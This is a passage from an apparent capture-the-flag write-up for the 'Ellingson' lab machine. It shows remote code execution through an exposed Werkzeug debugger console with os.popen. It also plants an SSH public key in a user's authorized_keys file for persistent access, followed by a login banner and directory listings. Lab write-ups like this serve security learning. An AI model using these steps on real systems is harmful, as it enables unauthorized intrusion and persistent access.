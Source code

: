 This is an online debugger known as _Werkzeug Debugger_, which will kindly provide us a shell just by clicking on the right of an entry:

![](/images/ellingson/webdebugger2.png)

It is Python. By trying a simple command such as:

	os.popen("whoami").read()

we see that we're user `hal`. So why not sending our public key to the server and grant us an SSH access:

	os.popen("echo 'pub_key_here' > /home/hal/.ssh/authorized_keys").read()

So now, let's try to login:

	root@pentestbox:~# ssh hal@10.10.10.139 
	Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-46-generic x86_64)

	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage

	  System information as of Sun Oct 20 10:16:58 UTC 2019

	  System load:  0.0                Processes:            99
	  Usage of /:   23.6% of 19.56GB   Users logged in:      0
	  Memory usage: 13%                IP address for ens33: 10.10.10.139
	  Swap usage:   0%

	  => There is 1 zombie process.


	 * Canonical Livepatch is available for installation.
	   - Reduce system reboots and improve kernel security. Activate at:
	     https://ubuntu.com/livepatch

	163 packages can be updated.
	80 updates are security updates.


	Last login: Sun Mar 10 21:36:56 2019 from 192.168.1.211
	hal@ellingson:~$ 

Great! Quite easy though...

	hal@ellingson:~$ ls -la
	total 36
	drwxrwx--- 5 hal  hal  4096 May  7 13:12 .
	drwxr-xr-x 6 root root 4096 Mar  9  2019 ..
	-rw-r--r-- 1 hal  hal   220 Mar  9  2019 .bash_logout
	-rw-r--r-- 1 hal  hal  3771 Mar  9  2019 .bashrc
	drwx------ 2 hal  hal  4096 Mar 10  2019 .cache
	drwx------ 3 hal  hal  4096 Mar 10  2019 .gnupg
	-rw-r--r-- 1 hal  hal   807 Mar  9  2019 .profile
	drwx------ 2 hal  hal  4096 Mar  9  2019 .ssh
	-rw------- 1 hal  hal   865 Mar  9  2019 .viminfo
	hal@ellingson:~$ cd ..
	hal@ellingson:/home$ ls -al
	total 24
	drwxr-xr-x  6 root      root      4096 Mar  9  2019 .
	drwxr-xr-x 23 root      root      4096 Mar  9  2019 ..
